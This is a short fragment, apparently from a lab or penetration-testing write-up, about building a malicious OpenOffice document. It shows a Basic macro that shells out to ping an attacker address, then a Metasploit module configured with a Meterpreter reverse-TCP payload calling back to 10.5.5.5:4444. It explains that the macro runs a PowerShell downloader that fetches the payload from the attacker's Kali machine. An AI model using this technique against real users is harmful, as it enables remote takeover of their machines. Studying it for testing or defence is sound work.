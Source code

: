     Sub Main

            Shell(&quot;ping -n 2 10.5.5.5&quot;)

    End Sub

    </script:module>



## Rule For MSF Libre Office

### Metasploit odt

Metasploit has a module for OpenDocument creation.

#### MSF Implementation

The module has the following options:



    msf5 > use exploit/multi/misc/openoffice_document_macro
    msf5 exploit(multi/misc/openoffice_document_macro) > options

    Module options (exploit/multi/misc/openoffice_document_macro):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       BODY                       no        The message for the document body
       FILENAME  msf.odt          yes       The OpoenOffice Text document name
       SRVHOST   0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT   8080             yes       The local port to listen on.
       SSL       false            no        Negotiate SSL for incoming connections
       SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                    no        The URI to use for this exploit (default is random)


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.5.5.5         yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Apache OpenOffice on Windows (PSH)



On running, it will generate a document with a macro. That macro
contains code that executes a PowerShell downloader, which reaches back
to my Kali box and downloads the rest of the payload, in this case,
Meterpreter.
